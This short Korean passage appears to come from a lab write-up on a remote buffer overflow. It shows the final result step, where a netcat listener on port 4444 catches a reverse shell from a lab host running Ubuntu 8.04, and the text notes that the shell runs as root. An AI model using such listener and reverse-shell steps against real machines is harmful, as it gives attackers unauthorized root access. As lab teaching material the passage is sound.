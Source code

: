 ### 5. 결과 확인

```bash
root@ming:~/바탕화면# nc -lvp 4444
listening on [any] 4444 ...
192.168.190.143: inverse host lookup failed: Unknown host
connect to [192.168.190.155] from (UNKNOWN) [192.168.190.143] 53633
grep . /etc/*-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=8.04
DISTRIB_CODENAME=hardy
DISTRIB_DESCRIPTION="Ubuntu 8.04"
```

* Buffer overflow (Local)과 다르게 **root**로 접속이 됨
